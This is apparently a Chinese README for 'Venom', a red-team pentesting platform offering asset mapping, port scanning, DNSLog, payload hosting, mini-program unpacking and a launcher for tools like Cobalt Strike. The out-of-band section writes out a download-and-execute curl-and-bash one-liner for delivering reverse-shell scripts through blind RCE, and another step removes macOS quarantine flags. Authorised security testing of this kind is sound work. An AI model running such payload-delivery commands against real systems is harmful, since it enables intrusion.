<h3 align="center">
  
</h3>


<p align="center">
  <a href="https://github.com/Zcentury/Venom/releases">
    
  </a>
</p>


<h3 align="center">
  致命精准的渗透测试利器 · 专为红队打造的集成化安全平台
</h3>

---

## 🎯 简介

**Venom** 是专为渗透测试工程师和安全研究员设计的新一代集成化安全测试平台。在传统安全工具分散、操作复杂的痛点下，Venom 通过模块化设计将多种安全检测功能整合于统一界面，提供从资产发现到漏洞利用的全链路攻击模拟能力。

区别于市面上笨重的安全套件，Venom 采用 Electron + Vue3 构建的现代化界面，配合高并发的扫描引擎，让安全测试更加高效精准。

---

## ⚡ 核心功能

| 功能模块 | 核心价值 | 技术特性 |
|---------|---------|---------|
| 🚀 极速端口扫描 | 快速资产发现 | 多线程并发、服务指纹识别（开发中）、HTTP存活探测（开发中）、实时进度监控（开发中） |
| 🗺️ 空间测绘聚合 | 网络资产侦察 | 聚合 FOFA/Hunter 等多源测绘情报，打破数据孤岛，快速收敛攻击面并锁定高价值目标 。 |
| 🔐 数据处理工坊 | 快速处理数据 | 内置零代码 JSON 智能清洗引擎与全能加解密（含国密 SM2/3/4），秒级完成复杂数据的提取与还原 。 |
| 📡 OOB 战术套件 | 网络工具     | 提供私有化 DNSLog 与 Payload 投递服务，构建隐蔽带外通道，有效突破流量审查与无回显限制 。 |
| 📱 小程序逆向 | 移动端安全   | 深度解析 Wxapkg 源码结构，自动化提取配置文件与敏感密钥，协助规避移动端信息泄露风险 。 |
| 🕵️ 间影·特战版 | 发掘影子资产 | 专注于挖掘前端不可见却承载核心逻辑的“影子资产”，系统性评估隐藏接口的越权与逻辑漏洞 。 |
| 🛠️ 武器库启动器 | 便捷工具管理 | 支持自定义集成第三方实战工具（如 jar包工具/Burp等），打造个性化的一站式渗透测试作战指挥台 。 |
| 其他功能 |  | 待开发中，忘大家积极提供思路和想法 |


---

## 🛠️ 安装

https://github.com/Zcentury/Venom/releases/latest 点击进入下载

问题：
1.如果提示“Venom”已损坏，无法打开。你应该将它移到废纸篓。
解决方法：`sudo xattr -dr com.apple.quarantine /Applications/Venom.app`

---

## 🎮 使用

### 场景一：🌐 资产测绘与边界突破

打破数据孤岛，从互联网侧快速收敛攻击面。

**空间测绘集成**：内置 **FOFA / Hunter / Quake** API，支持一键检索目标资产，快速获取 IP、端口及服务指纹 。

**极速端口扫描**：将测绘结果直接导入扫描引擎，开启多线程探测。支持自定义端口组（如企业内网 Top100 端口），实时监控扫描进度与存活状态 。





### 场景二：🔐 数据清洗与加解密 

告别繁琐的 Python 脚本，一站式处理杂乱数据。

**智能 JSON 提取**：面对海量 API 返回包，无需手写正则。直接粘贴 JSON 数据，输入 `data.list.phone` 即可秒级提取数万行中的关键字段（如手机号、Token）。

**全能加解密工坊**：

**编码转换**：支持 Base64 / Hex / URL / Unicode 等常见编码的一键互转 。

**国密支持**：内置 **SM2 / SM3 / SM4** 及 AES / RSA 算法，轻松应对国内开发环境的加密数据分析 。

**数据对比**：快速比对两次请求/响应的文本差异，精确定位参数变化。








### 场景三：📡 OOB 带外攻击辅助

专为无回显漏洞（Blind RCE/SSRF）设计的验证利器。

**私有 DNSLog**：一键生成专属子域名（如 xxx.xxx.xxx），实时监听 DNS 解析记录，完美绕过对公开 Log 平台的封锁 

**Payload 极速投递**：

- 内置轻量级 HTTP 文件服务，支持一键上传 EXP 或反弹 Shell 脚本。
- 自动生成下载执行命令（如 `curl -L http://... -o echo.sh && bash echo.sh`），大幅缩短漏洞利用窗口 。



```bash
curl -L http://xxxxxxx/file/2/file -o echo.sh && chmod +x echo.sh && bash echo.sh
```



### Dnslog




### 场景四：📱 小程序反编译

**Wxapkg 逆向**：拖入小程序包即可自动解包。系统会自动解析目录结构，提取 `app-service.js` 等核心源码 。

自动识别并提取小程序中调用的所有 API 接口（URL）等常用信息




### 场景五：🛠️ 武器库作战中控

打造你的个人专属渗透操作系统。

**工具链编排**：通过“快捷方式”模块，将 **Burp Suite, Cobalt Strike, JAR包** 等常用工具集成至 Venom 面板。

**自定义启动**：支持配置特定启动参数（如 `java -jar burp.jar`），实现单点登录般的流畅体验，无需在杂乱的文件夹中寻找工具 。






## 🤝 贡献指南

欢迎提交 Issue ！

---

## ⚠️ 免责声明

**重要提示：本工具仅供安全研究和授权渗透测试使用！**

1. **法律合规**：使用者必须确保在获得明确授权的情况下使用本工具
2. **责任范围**：开发者不对任何非法使用行为承担法律责任
3. **使用场景**：仅限于：
   - 获得授权的渗透测试
   - 安全研究和学习
   - 企业安全评估
   - CTF竞赛练习
4. **禁止行为**：严禁用于以下场景：
   - 未经授权的网络攻击
   - 恶意渗透和破坏
   - 数据窃取和勒索
   - 任何违反网络安全法的行为

**使用本工具即表示您同意遵守上述条款。如有违反，后果自负！**


<a href="https://star-history.com/#Zcentury/Venom&Date">

 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=Zcentury/Venom&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=Zcentury/Venom&type=Date" />
   
 </picture>
</a>


